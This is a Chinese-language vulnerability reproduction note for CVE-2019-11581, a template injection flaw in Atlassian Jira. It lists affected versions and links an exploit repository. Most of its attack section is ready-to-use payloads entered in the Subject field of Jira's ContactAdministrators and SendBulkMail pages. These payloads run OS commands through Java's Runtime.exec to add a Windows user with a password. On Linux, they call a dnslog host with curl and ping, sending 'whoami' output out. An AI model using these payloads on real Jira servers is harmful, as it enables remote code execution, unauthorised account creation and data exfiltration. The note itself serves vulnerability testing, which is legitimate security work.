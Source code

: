 



## 相关漏洞
### CVE-2019-11581 模板注入漏洞

#### 漏洞描述

影响版本
```
4.4.x
5.x.x
6.x.x
7.0.x、7.1.x、7.2.x、7.3.x、7.4.x、7.5.x、7.6.x before 7.6.14 (the fixed version for 7.6.x)、7.7.x、7.8.x、7.9.x、7.10.x、7.11.x、7.12.x、7.13.x before 7.13.5 (the fixed version for 7.13.x)
8.0.x before 8.0.3 (the fixed version for 8.0.x)、8.1.x before 8.1.2 (the fixed version for 8.1.x)、8.2.x before 8.2.3 (the fixed version for 8.2.x)
```

### 漏洞复现

#### 漏洞验证

漏洞利用

> https://github.com/jas502n/CVE-2019-11581

确认未登陆状态下漏洞的存在

访问如下URL（无需管理员账户权限）：

http://10.10.10.12:8080/secure/ContactAdministrators!default.jspa

![image-20210919113350954](jira.assets/image-20210919113350954-16322839765956.png)

在Subject填入payload

针对不同目标操作系统的验证

- Windows
- Linux

##### Windows 利用

添加用户

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user neo 1qaz@WSX3edc /add').waitFor()
```

##### Linux 利用

登陆管理员账号，然后访问如下URL：

/secure/admin/SendBulkMail!default.jspa

```
# dnslog query
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://uz09sm.dnslog.cn').waitFor()

# dnslog 外带命令执行结果 示例：whoami
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('ping `whoami`.vniyj2.dnslog.cn').waitFor()
```

dnslog query

![image-20210919120024420](jira.assets/image-20210919120024420.png)

